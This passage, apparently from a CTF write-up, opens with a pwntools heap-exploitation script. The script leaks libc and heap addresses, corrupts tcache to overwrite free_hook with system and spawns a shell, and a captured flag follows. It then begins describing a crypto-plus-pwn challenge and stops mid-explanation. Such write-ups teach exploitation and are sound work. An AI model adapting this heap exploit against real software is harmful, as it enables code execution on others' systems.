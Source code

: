 ```py
for i in range(10):
	addperson(i,0)
viewperson(8,0)
removeperson(0,0)
viewhouse(0)
io.recvuntil('Person 8   with details  ')
libc_base = u64(io.recvn(6)+'\x00\x00')-0x1e4ca0
log.info('Libc base {}'.format(hex(libc_base)))
viewperson(9,0)
removeperson(1,0)
viewhouse(0)
io.recvuntil('Person 9  ')
heap_base = u64(io.recvn(6)+'\x00\x00')-0xa60
log.info('Heap leak {}'.format(hex(heap_base)))
for i in range(9):
	createperson('HKHK',0x38,'HKHK')
createperson('HKHK',0x418,'HKHK')
createhouse('HKHK',0x18,'HKHK')
for i in range(10):
	addperson(i,1)
for i in range(4):
	removeperson(i,1)
viewperson(5,1)
removeperson(6,1) #delete 5 here
removeperson(7,1)
party(1)
for i in range(3):
	createperson('AAAA',0x38,'BBBB')
for i in range(2):
	createperson('BBBB',0x38,'CCCC')
createperson('AAAA',0x38,'DDDD')
createperson(p64(heap_base+0x60),0x38,'DDDD')
createperson('DDDD',0x38,'KKKK')
createperson(p64(libc_base + free_hook),0x38,'GGGG')
createperson('HKHKK',0x58,p64(libc_base+system))
viewperson(2,0)
removeperson(0,0)
io.interactive()
#inctf{m3h_th4t_w4s_a_trivial_bug_7734736f615f472}
```

## pwncry

##### points - 964, solves - 10
This challenge was pretty simple. (`Meh` Didn't had much satisfaction after solving it./)
The challenge contained two part. Crypto and pwn
I had help of my team-mate `kiona` with the crypto-part
and pwn was pretty simple.

It encrypts the data we send with AES-CBC mode,
The crypto part to solve was, there was a random key on the remote service, which we can leak the key,
libc version 2.23, and the bug easy to find,
but data we send gets encrypted before it gets copied into our buffer, hmmm?
Is there a way around this ?
Yes we can Keep the exact data we want inside the chunk, I had help of our crypto guy on this. But for this we need the key on the remote server.
The binary prints the IV at start,
Asks us a three letters at the start, encrypts it and prints it back, 
